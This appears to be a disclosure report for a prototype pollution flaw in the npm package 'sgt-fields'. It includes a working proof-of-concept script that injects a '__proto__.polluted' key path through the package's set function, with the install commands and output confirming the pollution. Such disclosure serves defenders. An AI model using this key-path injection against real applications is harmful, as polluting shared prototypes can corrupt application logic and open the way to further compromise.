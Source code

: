 # Description

`sgt-fields` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var sgtFields = require("sgt-fields")
var obj = {}
console.log("Before : " + {}.polluted);
sgtFields.set(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i sgt-fields # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
